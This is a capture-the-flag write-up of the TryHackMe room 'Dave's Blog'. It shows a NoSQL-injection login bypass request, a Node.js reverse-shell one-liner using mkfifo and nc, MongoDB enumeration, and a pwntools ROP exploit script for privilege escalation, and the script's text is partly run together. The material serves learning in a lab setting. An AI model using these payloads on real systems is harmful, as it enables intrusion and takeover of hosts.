

Simon McCabe
WAPT. OSCP. OSWP. PGCert. BSc. Linux+. Security+.

...Dave's Blog...

*** Writeup by ShellByte Protocol ***
ShellByte Protocol is a new team of hackers working together on CTF's. In order to celebrate the team coming together, we decided to take on a *very* hard box on TryHackMe. This is our first but certainly not last writeup as a team. Enjoy...
First up, we ran nmap to look for what ports were open.
Next, we used nikto + basic browser enumeration in order to find anything that may be useful for the exploitation stage:
The admin url was interesting. There was a registration option but this was disabled.
It was the only vector we'd seen thus far. I had the idea to see whether we could bypass it.
If you send a POST request to the url /admin/register with a username&password parameters, this results in a redirect which confirms the user was registered "/admin#Registered%20successfully". But when I tried to log in, I couldn't login as the user that I had just successfully registered.
It looked like this was the right thing to do, but there must be some kind of twist. The team all began working on it, trying to figure out how it was set up in the backend. Next, we discovered somewhat of a hint in the source code:

The script (as seen above) was using JSON to "stringify" the username + password and sending a POST with a content type of application/json
This looked like just the ticket.
We used the source-code hint to construct a POST request:
POST /admin HTTP/1.1
Host: 10.10.50.53:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/json;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.50.53:3000/admin
Content-Type: application/json
Content-Length: 41
Connection: close
Cookie: jwt=redacted
Upgrade-Insecure-Requests: 1
{"username":"dave","password":{"$ne":""}}
In response we got a redirect back to the login page. However, in the response was a cookie set with a jwt value.
HTTP/1.1 302 Found
X-Powered-By: Express
Set-Cookie: jwt=redacted; Path=/
Location: /admin
Vary: Accept
Content-Type: text/html; charset=utf-8
Content-Length: 56
Date: Fri, 26 Jun 2020 21:39:35 GMT
Connection: close
Found. Redirecting to /admin
Next, we decoded the jwt:
{
"isAdmin": true,
"_id": "{snipped}",
"username": "dave",
"password": "THM{snipped}",
"__v": 0,
"iat": 1593207575
}
With this token we can get an authenticated session in the browser.
In the authenticated session we get some kind of "shell" which looked very much like a standard CTF-style OS command injection. But we could not execute normal OS commands.
require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f', ()=>{})
Finally. We were user. And we could retrieve the 2nd flag in /home/dave/user.txt
Next began the hunt for flag 3. The room hint was "mongo deeper" which tells us that it has something to do with mongo database. We went ahead to look inside the Database.
First start the mongo shell by typing "mongo" into the terminal.
mongo
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27017
MongoDB server version: 3.6.3
Next list all available dbs.
show dbs
admin 0.000GB
config 0.000GB
daves-blog 0.000GB
local 0.000GB
The admin db just contains some version infromation so I select the daves-blog
use daves-blog
switched to db daves-blog
List the tables in the database.
show tables
posts
users
whatcouldthisbes
Get the content of the table whatcouldthisbes.
db.whatcouldthisbes.find()
{ "_id" : ObjectId("5ec6e5cf1dc4d364bf864108"), "whatCouldThisBe" : "THM{snipped}", "__v" : 0 }
and with that, we now had flag 3.
Next was trying to escalate privileges. But this would turn out to be by far the hardest part of the room.
sudo -l
Matching Defaults entries for dave on daves-blog:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User dave may run the following commands on daves-blog:
(root) NOPASSWD: /uid_checker
First, we ran the strings command:
The "secret" string stood out, we broke out gdb to look at it:
With ROP what we want to do is use existing code in the system to build our exploit. If we want a system call for example then we must find one within the code and reuse it. Disassembling the secret funtion that we were given a clue to reveals one of the building blocks we need, so that's a good start, 0x00000000004006be will be handy later
The following is derived from an article we read during the CTF.
Because stack frames and stack variables grow in opposite directions, we can overflow a local buffer and overwrite the return address on the stack. This is means that when the function is finished, instead of returning the function that called it, we can get to return anywhere we want. This is effectively the same thing as calling arbitrary functions, and allows us to completely bypass a non-executable stack.
This is the basis of Return Oriented Programming (ROP). Instead of executing code on the stack, we push a chain of addresses to the stack. Each of these addresses points to a gadget, which is a simple unit of computation that we can use as building blocks to write nearly any program we want.
For example, if we want to call system() with some arbitrary argument, all we have to do is find a reference to system() in the binary (either a call or in the global offset table) and some gadget that allows us to either push a value to the stack (for x86 binaries) or move a value to the RDI register (for x64 binaries). We then chain these two gadgets together by pushing their addresses to the stack.
First, we call the gadget that sets up the arguments to system(), then that gadget’s ret instruction pops the address of system() and jumps to it. This is effectively exactly the same thing as calling system() directly, if a little more involved. There are of course some caveats to this idea: We can only run code that already exists in the program. This includes any libraries loaded by the binary, which leads to a whole ‘nother class of ROP (see: ret2libc) We can only fit so many ROP gadgets into a given buffer overflow. Fortunately, we have 92 bytes to play with in this challenge, which is plenty. If we needed more space we would have to get more creative.
When we did strings earlier we also found /bin/sh within the binary, so we know that this is also available for us to use. Basically our strategy will be to find the pointer to /bin/sh, find a gadget that pops this off the stack into the rdi register, then call the system function executes it. At the end of that chain we should have a shell We can look for that string again using radare2's izz function:
This tool gives us the relative address to the string, in this case 0x00400840 - this did not work for us though, perhaps a better way is to use gdb's searchmem function to find where it is hiding out in the data section?
So the address we want is 0x600840 (spolier alert, it's not!, it was the cat issue) Now we need a 'gadget' to pop this address off the stack before we call our system function, we can use ROPgadget to find something that will work.
So there is a gadget 0x0000000000400803 : pop rdi ; ret that should work for us We put this all together in a script using this walkthrough as a guide
kali@kali:~/Documents/TryHackMe/DavesBlog$ cat pwnsploit.py #!/usr/bin/python2
from pwn import *
# setup the binary elf = context.binary = ELF('./uid_checker')
# activate logging context.log_level = 'debug'
# setup the 'found' addresses for our rop chain # the string to execute bin_sh = 0x600840 # the system call
system = 0x004006be # the instruction (gadget) to pop the string from the stack into rdi pop_rdi = 0x00400803 info("target
string: %#x", bin_sh) info("addr of system(): %#x", system)
# now let's find the offset automatically (we know it's 88 from doing it manually before but this finds it itself) # start a
process io = process(elf.path)
# send a cyclic io.sendline(cyclic(128))
# wait for the crash io.wait()
# read the corefile core = io.corefile
# read the stack point at the time of the crash stack = core.rsp info("stack: %#x", stack)
# read 4 bytes from the stack pointer # this is our De Bruijn offset pattern = core.read(stack, 4) offset = cyclic_find(pattern)
info("pattern: %r", pattern)
# build the rop chain # first we will return onto our pop gadget which will pop the next element on the stack, the address of our
'/bin/sh' string # then the return of that gadget pops the next address, which is our system call, and executes it rop_chain =
p64(pop_rdi, endian="little")
rop_chain += p64(bin_sh, endian="little") rop_chain += p64(system, endian="little")
# we add some padding to place this at just the right spot padding = cyclic(offset)
# the payload then is padding + our rop chain payload = padding + rop_chain info("ROP Payload: %s", payload)
# open a new process to pwn io = process(elf.path)
# send the payload io.sendline(payload) io.wait_for_close() io.recv()
So let's run it and see what happens...
----snipped----
KeyboardInterrupt [*] Stopped process '/home/kali/Documents/TryHackMe/DavesBlog/uid_checker' (pid 12981)
We had to ^C out of it and didn't get the shell we wanted, so what went wrong? Let's add a print to check that the string /bin/sh is really at that memory address
Ok, there's the problem, we're not pointing to /bin/sh at all, we're pointing to a sequence of blank memory space... What if we go back to our previous attempt, using 0x00400840 as the memory location for /bin/sh?
Well well, we have the string here, and it's null-terminated as we want it to be... this looks good after all. However we don't get a shell... Ahh, but wait, while watching this youtube video by LiveOverflow he pipes his input into the binary, but also chains another cat to keep a communication channel open, i.e. (cat rop.string; cat) | binary. Let's try doing that in case our shell is opening but we are just not able to reach it. I modify the script a little to output the exploit into roppayload
Okay! it's weird but it does work, we get a shell. Let's try it on target now, we send our payload to /tmp

Excellent, we find the root flag, #5: THM{snipped}. Nice work team! Dave's Blog was a tough nut to crack.